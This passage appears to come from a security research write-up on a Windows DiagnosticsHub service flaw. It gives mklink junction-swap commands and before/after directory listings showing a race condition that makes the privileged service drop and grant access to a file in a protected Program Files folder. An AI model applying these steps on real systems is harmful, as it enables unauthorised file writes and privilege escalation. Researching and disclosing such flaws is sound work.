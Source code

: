 The second potential attack vector is tricking the service to drop files outside the scratch directory.

This abuses creation of the Report.{guid} directories.
The first steps of this attack are the same, the `Etw` junction needs to be swapped, but this is a race condition, so timing is also important here.

It needs to be replaced after the `CreateDirectoryW("Report.{guid}", ...)` call in

```
void __thiscall
Microsoft::DiagnosticsHub::StandardCollector::SecuredDirectory::SecuredDirectory
          (SecuredDirectory *this,ushort *param_1,void *param_2,bool param_3)
```


After the `Report` dir was created, we can replace the base symlink:

```
rmdir Etw
mklink /d /j Etw ETW
Junction created for Etw <<===>> ETW
```

Then, we can create one more junction with the name of `Report` directory:

```
mklink /d /j Report.0197E42F-003D-4F91-A845-6404CF289E84 "c:\Program Files\7-Zip\Lang"
Junction created for Report.0197E42F-003D-4F91-A845-6404CF289E84 <<===>> c:\Program Files\7-Zip\Lang
```

Before:

```
dir "c:\Program Files\7-Zip\Lang"\metadata.xml
 Volume in drive C has no label.
 Volume Serial Number is 5EAB-40D5

 Directory of c:\Program Files\7-Zip\Lang

File Not Found
```

After the attack succeeded:

```
dir "c:\Program Files\7-Zip\Lang"\metadata.xml
 Volume in drive C has no label.
 Volume Serial Number is 5EAB-40D5

 Directory of c:\Program Files\7-Zip\Lang

11/22/2020  02:22 PM               221 metadata.xml
```

As part of the normal operation, DiagHub calls `SetNamedSecurityInfoW` on this file to grant access to the caller of the API.
